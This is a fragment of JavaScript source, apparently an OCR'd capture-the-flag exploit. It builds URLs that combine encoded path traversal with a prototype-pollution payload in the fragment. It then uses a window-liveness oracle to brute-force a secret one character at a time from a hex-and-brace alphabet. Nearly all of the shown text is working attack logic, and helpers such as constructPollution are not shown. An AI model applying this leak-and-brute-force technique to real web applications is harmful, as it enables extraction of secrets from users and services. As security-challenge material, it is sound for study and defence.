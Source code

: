 ```html
    const random = Math.random().toString();

    const credentials = constructCredentials(prefix);
    if (!(await register(credentials))) {
        return 'registration failed';
    }

    const pollution = constructPollution(credentials);
    
    const ctx = {};

    try {
        startLivenessCheck(ctx, 2);

        await sleep(100);

        const url = `${INTERNAL_EXCESS_URL}/message/${random}%2f..%2f..%2fregister#${encodeURIComponent(pollution)}`;
        wnd.location.href = url;

        await sleep(2000);
    } finally {
        await stopLivenessCheck(ctx);
    }

    if (ctx.results.some(result => result == 'dead')) {
        return false;
    }

    return true;
};

const main = async () => {
    const alphabet = '0123456789abcdef-}';

    const state = loadState();
    await report(state);

    const wnd = window.open();
    await sleep(1000);

    const symbol = alphabet[state.index];
    const new_prefix = state.prefix + symbol;

    let result = true;

    for (let i = 0; i < 5; i += 1) {
        if (!(await testPrefix(wnd, new_prefix))) {
            result = false;
            break;
        }
    }

    wnd.close();

    if (result) {
        state.prefix = new_prefix;
        state.index = 0;
    } else {
        state.index += 1;
    }

    saveState(state);
```